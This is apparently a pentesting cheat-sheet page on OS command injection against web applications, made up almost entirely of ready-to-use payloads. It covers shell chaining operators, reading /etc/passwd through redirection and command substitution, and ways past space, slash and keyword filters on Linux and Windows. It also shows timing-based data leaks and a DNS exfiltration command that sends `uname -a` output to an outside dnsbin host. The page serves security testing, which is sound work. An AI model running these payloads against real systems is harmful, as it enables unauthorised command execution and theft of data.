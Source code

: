 ```yaml
---
menu: Command Injection
title: Command Injection - Web Applications Pentesting
---
```


# Command Injection

## At a Glance

Command injection is an attack
in which the attacker
executes arbitrary commands
on the host OS
via a vulnerable application.
Command injection attacks are possible
when an application
passes unsafe user-supplied data
to a system shell.
[^command-injection-owasp]

{{<note>}}
Commands are usually executed with the privileges of the vulnerable application.
{{</note>}}

## Command Chaining

```sh
<input>; ls
<input>& ls
<input>&& ls
<input>| ls
<input>|| ls
```

{{<note>}}
Also try:
- Prepending a flag or parameter.
- Removing spaces (`<input>;ls`).
{{</note>}}

### Chaining Operators

Windows and Unix supported.

|      | Syntax          | Description                                           |
| ---- | -------------   | -------                                               |
| `%0A`| `cmd1 %0A cmd2` | Newline. Executes both.                               |
| `;`  | `cmd1 ; cmd2`   | Semi-colon operator. Executes both.                   |
| `&`  | `cmd1 & cmd2`   | Runs command in the background. Executes both.        |
| `|`  | `cmd1 | cmd2`   | PIPE operator. Sends `cmd1`'s output as `cmd2` input. |
| `&&` | `cmd1 && cmd2`  | AND operator. Executes `cmd2` if `cmd1` succeds.      |
| `||` | `cmd1 || cmd2`  | OR operator. Executes `cmd2` if `cmd1` fails.         |

## I/O Redirection

```sh
> /var/www/html/output.txt
< /etc/passwd
```

## Command Substitution

Replace a command output with the command itself.[^substitution-gnu]

```sh
<input> `cat /etc/passwd`
```

```sh
<input> $(cat /etc/passwd)
```

## Filter Bypassing

### Space filtering [^spaceless-ifs]

#### Linux

```sh
cat</etc/passwd
# bash
${cat,/etc/passwd}
cat${IFS}/etc/passwd
v=$'cat\x20/etc/passwd'&&$v
IFS=,;`cat<<<cat,/etc/passwd`
```

#### Windows [^spaceless-windows-rce]

```ps
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Slash (`/`) filtering

```sh
echo ${HOME:0:1} # /
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

```sh
echo . | tr '!-0' '"-1' # /
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### Command filtering

Quotes.

```sh
w'h'o'am'i
w"h"o"am"i
```

Slash.

```sh
w\ho\am\i
/\b\i\n/////s\h
```

At symbol.

```sh
who$@ami
```

Variable expansion.

```sh
v=/e00tc/pa00sswd
cat ${v//00/}
```

Wildcards.

```ps
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Time Based Data Exfiltration [^time-based-rce]

```sh
time if [ $(uname -a | cut -c1) == L ]; then sleep 5; fi
```

## DNS Based Data Exfiltration [^dns-bin]

- [pingb.in](//pingb.in)
- [dnsbin.zhack.ca](//dnsbin.zhack.ca)

`dnsbin` Example:

```sh
host $(uname -a).c2cebb6a3678849a2eee.d.zhack.ca
```


[^command-injection-owasp]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^substitution-gnu]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^spaceless-windows-rce]: https://twitter.com/bugbountynights/status/860102244171227136
[^spaceless-ifs]: https://twitter.com/asdizzle_/status/895244943526170628
[^time-based-rce]: Pobereznicenco, Dan. “Exploiting Timed Based RCE – Security Café.” Security Café, 28 Feb. 2017, https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/.
[^dns-bin]: ettic-team. “GitHub - Ettic-Team/Dnsbin: The Request.Bin of DNS Request.” GitHub, https://github.com/ettic-team/dnsbin.
